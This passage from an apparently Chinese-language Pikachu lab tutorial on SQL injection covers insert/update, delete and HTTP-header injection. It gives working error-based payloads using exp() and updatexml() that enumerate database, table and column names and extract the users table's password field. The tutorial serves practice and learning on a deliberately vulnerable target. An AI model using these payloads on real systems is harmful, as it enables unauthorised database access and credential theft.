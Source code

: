 ### 六、insert/update注入

>**所谓 insert 注入是指我们前端注册的信息，后台会通过 insert 这个操作插入到数据库中。如果后台没对我们的输入做防 SQL 注入处理，我们就能在注册时通过拼接 SQL 注入。update 注入则指的是对数据库中的数据执行更新动作（而非 select 查询）。第七节的 delect 注入也是同理，对数据库中的某条数据执行删除操作。综上，SQL注入根据sql语句的类型可分为select、insert、update、delect注入。**

>**insert/update注入一般会出现在注册页面的用户名或者密码框（找回密码等）里**

>**这种情况下，我们知道后台使用的是 insert 语句，我们一般可以通过 or 进行闭合。并且updatexml()函数只能注出32位字符，由于我们之前发现password字段的值加上用0x7e以闭合的concat()值会超出32位，所以这里用exp()函数进行注入**

1.用exp()溢出构造payload爆库`'or exp(~(select * from (select database())e)) or '`

![avjakjvbkabvkbakva](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avjakjvbkabvkbakva)

2.exp()函数爆表`'or exp(~(select * from (select group_concat(table_name) from information_schema.tables where table_schema='pikachu')e)) or '`

![avjbkjabvkjbakjvjkavdjgd](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avjbkjabvkjbakjvjkavdjgd)

3.exp()函数爆列名`'or exp(~(select * from (select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users')e)) or '`

![ajdvbkjabvdkabvk](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/ajdvbkjabvdkabvk)

4.exp()函数爆password字段`'or exp(~(select * from (select group_concat(password) from pikachu.users)e)) or '`

![svanvlavajvjajvakjbv](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/svanvlavajvjajvakjbv)

### 七、delect注入

>**delect注入在insert注入的标示中有提过，属于一种sql语句类型。此处构造语句是由于是在burp的数据包中进行Get传输，所以`空格`需要用`+`代替**

>**基于insert和update的语句一般用`or ' `来结尾，因为他们后面往往跟着多组（如`'name1'，'name2'，'name3'`）数据；基于select和delete的用#来注释掉后面的内容(参数是数字型的一般可以不用注释符)**

1.爆库名`1+or+updatexml(1,concat(0x7e,database()),1)`

![kcvkabsvhkabvkbac](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/kcvkabsvhkabvkbac)

2.爆表名`1+or+updatexml(1,concat(0x7e,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema='pikachu')),1)`

![alvlavnkjadvkadsvavd](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/alvlavnkjadvkadsvavd)

3.爆列名```1+or+updatexml(1,concat(0x7e,(select+group_concat(column_name)+from+information_schema.columns+where+table_schema='pikachu'+and+table_name='users')),1)```

![avavnajnvdjaduvhdvd](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avavnajnvdjaduvhdvd)

### 八、http头注入

>**http头部中，由于user-agent直接拼接，导致的漏洞。可以先自行构造user-agent，若报错，则的确有漏洞，用insert注入的方法进行注入，可获得输入的数据库名，也可获取更多信息。还有一种是在cookie中，与user-agent相同原因，在数据库里进行拼接，可能产生漏洞。**
